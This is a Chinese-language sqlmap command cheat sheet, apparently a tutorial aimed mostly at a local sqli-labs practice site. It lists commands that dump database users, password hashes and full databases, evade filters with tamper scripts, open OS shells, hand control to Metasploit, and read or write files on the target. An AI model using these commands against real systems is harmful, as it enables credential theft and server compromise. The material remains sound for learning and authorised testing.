 探测

```
sqlmap -u "http://www.xx.com/username/admin*"       #如果我们已经知道admin这里是注入点的话，可以在其后面加个*来让sqlmap对其注入
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"   #探测该url是否存在漏洞
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"   --cookie="抓取的cookie"   #当该网站需要登录时，探测该url是否存在漏洞
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"  --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
```



获取用户名和密码

```
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --users      #查看数据库的所有用户
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --passwords  #查看数据库用户名的密码
	有时候使用 --passwords 不能获取到密码，则可以试下
	-D mysql -T user -C host,user,password --dump  当MySQL< 5.7时
	-D mysql -T user -C host,user,authentication_string --dump  当MySQL>= 5.7时

sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --current-user  #查看数据库当前的用户
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --is-dba    #判断当前用户是否有管理员权限
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --roles     #列出数据库所有管理员角色，仅适用于oracle数据库的时候
```

常用指令：    

```
sqlmap -r http.txt  #http.txt是我们抓取的http的请求包
sqlmap -r http.txt -p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测

 
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"    --dbs        #爆出所有的数据库
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"    --tables     #爆出所有的数据表
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"    --columns    #爆出数据库中所有的列
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"    --current-db #查看当前的数据库
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100  #爆出数据库security中的users表中的username列中的前100条数据
 
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据
 
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1"  --tamper=space2comment.py  #指定脚本进行过滤，用/**/代替空格
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别。当level=2时，会测试cookie注入。当level=3时，会测试user-agent/referer注入。
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" --sql-shell  #执行指定的sql语句
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --os-shell/--os-cmd   #执行--os-shell命令，获取目标服务器权限
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --os-pwn   #执行--os-pwn命令，将目标权限弹到MSF上
 
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --file-write  test.txt  --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt
 
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --dbms="MySQL"     #指定其数据库为mysql 
其他数据库：Altibase,Apache Derby, CrateDB, Cubrid, Firebird, FrontBase, H2, HSQLDB, IBM DB2, Informix, InterSystems Cache, Mckoi, Microsoft Access, Microsoft SQL Server, MimerSQL, MonetDB, MySQL, Oracle, PostgreSQL, Presto, SAP MaxDB, sqli-labste, Sybase, Vertica, eXtremeDB
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破
```